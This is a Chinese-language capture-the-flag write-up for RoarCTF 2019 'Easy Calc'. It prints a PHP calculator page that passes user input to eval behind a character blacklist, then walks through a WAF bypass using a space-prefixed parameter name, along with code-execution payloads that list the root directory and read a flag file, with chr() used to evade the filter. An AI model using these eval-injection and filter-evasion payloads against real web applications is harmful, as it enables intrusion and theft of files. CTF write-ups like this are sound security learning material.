





# [RoarCTF 2019]Easy Calc1

**1**.打开页面


**2**.看到源代码里面有提示
**I’ve set up WAF to ensure security.**

**encodeURLComponent函数**

> 这个函数使[url编码](https://so.csdn.net/so/search?q=url编码&spm=1001.2101.3001.7020)，url中的特殊字符(, / ? : @ & = + $ #)都进行编码,该方法不会对 ASCII
> 字母和数字进行编码，也不会对这些 ASCII 标点符号进行编码： - _ . ! ~ * ’ ( ) 。

**3**.我们在这里看见有calc.php,于是我们打开calc.php看看

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {//这个函数使加强版的for，是将blacklist赋值给blackitem
                if (preg_match('/' . $blackitem . '/m', $str)) {//正则m匹配多行的意思
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}

```

我们看到了源码，我们得想办法绕过执行我们自己的语句，并且通过num传参数发现有[回显](https://so.csdn.net/so/search?q=回显&spm=1001.2101.3001.7020)，我们发现有数字检测。
所以我们得绕过数字检测，或者让数字检测不生效
我们看到开始有一句提示，于是我们开始想办法绕过

> **I’ve set up WAF to ensure security.**

**首先我们应该了解php解析字符串时的规则**
php在解析字符串时只做两件事

> 1.删除空白符
> 2.将某些字符转换为下划线（包括空格）

于是我们使用这payload试试是否绕过
?+num=phpinfo()
**发现成功绕过，在这里我们传入的是%20num而不是num故检测不到是num变量，故其不会触发WAF，成功绕过**


**4**.接下来就要进行自己的语句构造

## payload方法

函数[scandir](https://www.runoob.com/php/func-directory-scandir.html)
payload:?+num=scandir(chr(47))   //这里使用ascii码的原因是’/‘被过滤了


函数[print_r](https://www.runoob.com/php/php-print_r-function.html)和[var_dump](https://www.runoob.com/php/php-var_dump-function.html)两个函数
构造出新的payload:?+num=print_r(scandir(chr(47)))

5.发现关键信息flagg，于是想办法读取flagg，用函数[file-get-content](https://www.runoob.com/php/func-filesystem-file-get-contents.html)
构造payload
?+num=print_r(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))

